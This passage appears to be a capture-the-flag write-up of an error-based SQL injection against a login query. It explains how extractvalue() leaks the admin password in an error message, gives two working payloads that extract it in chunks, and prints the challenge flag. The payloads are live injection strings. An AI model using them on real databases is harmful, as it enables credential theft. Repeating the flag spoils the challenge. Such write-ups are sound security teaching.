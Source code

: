 Then the query will be
```sql
SELECT * FROM user WHERE uid='' or extractvalue(1,concat(0x3a,(select upw from user where uid='admin')));--';
```

- Firstly the SELECT command will be executed
```sql
select upw from user where uid='admin'
```
and returns password, for example, "DH{fake_flag}".

- Then ```concat()```
```
concat(0x3a,"DH{fake_flag}")
```
returns ```":DH{fake_flag}"```

- Then ```extractvalue()```
```
extractvalue(1, ":DH{fake_flag}")
```

It will return ":DH{fake_flag}" in an error message.

### Payload

```
' or extractvalue(1,concat(0x3a,(substr((select upw from user where uid='admin'),1,20))));--
```

and 

```
' or extractvalue(1,concat(0x3a,(substr((select upw from user where uid='admin'),21,40))));--
```

The flag is
```
DH{c3968c78840750168774ad951fc98bf788563c4d}
```